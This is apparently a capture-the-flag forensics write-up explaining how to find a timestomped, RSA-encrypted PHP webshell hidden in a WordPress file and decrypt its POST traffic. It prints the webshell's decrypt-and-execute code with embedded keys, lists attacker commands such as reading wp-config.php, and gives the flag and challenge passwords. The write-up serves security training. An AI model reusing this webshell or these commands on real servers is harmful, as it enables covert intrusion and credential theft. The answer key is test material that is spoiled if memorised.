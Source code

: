 # Infected
Description:
```
Our systems recently got ransomwared, and we tracked the origin to our web server. We're not sure how they got access, can you find out?

[infected.zip] [infected.pcapng]
```

## Writeup
A copy of all the web server files and incoming traffic are given to the participants, along with a description that asks them how an attacker got access to a webserver. A webshell had been placed there previously (and timestomped so sorting by most recently modified won't help) that uses 3 layers of asymmetric encryption to communicate with the host through a normal-seeming POST request. In addition, tens of thousands of other HTTP requests were sent to his server through WPScan, nikto, dirb, manual browsing, etc. 

The goal is to identify the webshell stored in `wordpress/wp-includes/date.php` and isolate all traffic belonging to it. This may be done in either order, either identifying the weird code in the file first, or isolating the malicious traffic (the only HTTP traffic with POST data also) first. Many attempts have been made to make the POST requests fit in with normal traffic (including putting the payload in HTTP multipart/form data, spoofing user agent, etc.). The timing of the shell commands were also made so they weren't sent in chunks, but rather spread across the entire capture. 

Once finding the code and traffic, only the first part has been done. Then, the user must extract a decryption key from the POST data to decrypt the PHP code, then extract a second decryption key to decrypt the commands being sent to the server. This must be done for each shell interaction until the command with the flag is decrypted. Also note that the command responses CANNOT be decrypted since the decryption key is not provided (stored on the attacker's server only). 

An example of this is done in `decrypt.php`, where the shell code has been slightly modified to take in base64-encoded data from a packet capture (only the text after `...`). This will print out:

```php
$pvk1 = "-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCyYg7DzqjtPGCUT+q38iZcQDqZFC+lIxqo+g1/OhT45AMPtea0
habVZX77whFsQz5zE3fUXLZCzDnZpvtfr4Y8JSzGdL7O0qf3KAQIfk26YQeKOOje
ECNi5zUk3wf+5QUZjXnvDj+BUr78fV57zMpCBe65+mTiBpFkzsNTYo+VxwIDAQAB
AoGBAKyHPrSPer8JOHf525DRudxbmtFXvsU/cJeiUc+Nw57+GR/m1R4gbj3TDsA8
8VD+sLXoTGuux/FPSVyDrnjbcT25akm0FE+KkBZ6dNLFtOq6WQTe3N8HHDHkpqbZ
qXbmuph4MqZlDpKMbEL1cQ81MkgAdPJnljvrjpIoqn5wZ7cRAkEA1+SjeaueSCu4
4VzXTDOMkBqT5rEfJXnT7fN9eM48dXCd1LotWIL/2xcGkC4OdqT0kQiSs4pOQlcn
Lle18qOL5QJBANOFh3aaoGDfH60ecX2MHDnvHz4CSAIInlNXsPpbhWrt7blmGBeA
nuwIiaQOMzvrj084xk3nI8PMIzdgxUFveDsCQA2w1h0VIQh6nVLNTGnsqvFIfjCW
8t6xhxsD4eUTTwozhg7Db7S5Ofhu0V+7S/eCJnA8FvGDx8q1NCrgLQ2iCXECQDl2
cRKbdy5Z7zUMrDA7O//RIl+qJv3GcZyamg2ph1lBQe+3+JuJ6aKdvya+ZNTGbaxL
9DN9s42hi3+j3nKkYbkCQDy68qEICIdcLPFzv/sEN2JS1Cg21lJMH14ao0M3Di9B
G4oDHVBHCRtDGXOviR8AG0VpghDHheonDFaX5O7VXUM=
-----END RSA PRIVATE KEY-----
";
$pbk1 = "-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCyucnknkBP4whz0YJrblke667f
5g4EfCmKcO2j7c+WEOWmbVBRZ/ETtqOIEM8Hp9rV605R1gJBf7tcxziEoX4wxQm5
nfAqXkHUdloGyK7p7IZTh5tX6KnckCtrwbD7EFwjWBBceVHRmnmVdtF4yIkwaD2S
4tw4O5CVYcIlIAAo6QIDAQAB
-----END PUBLIC KEY-----
";
openssl_private_decrypt($ae25f0, $decrypted, $pvk1);
$result = `{$decrypted} 2>&1`;
$encrypted = "";
$chunks = str_split($result, 116);
foreach ($chunks as $chunk) {
    openssl_public_encrypt($chunk, $tmp, $pbk1);
    $encrypted .= base64_encode($tmp).",";
}
echo $encrypted;
```

`$pvk1` can then be used to decrypt the command issued (the data BEFORE the `...` in the packet).

**Flag** - `SEKAI{h4rd_2_d3t3ct_w3bsh3ll}`

## Notes for Challenge creation
* MySQL Password - `super_S3CUR3_mysql_P4s$w0rdd`
* Wordpress creds - `admin:8XT8aUF&Lj7RL4RDmF`, admin@localhost.com

Traffic generation:
- Long dirb session
- WPScan
- Nikto
- Manual browsing
- Ping
- Shell

Shell commands:
- id
- pwd
- ls
- sudo -l
- ip a
- cat ../wp-config.php
- echo 'SEKAI{h4rd_2_d3t3ct_w3bsh3ll}'
- cat /opt/flag2.txt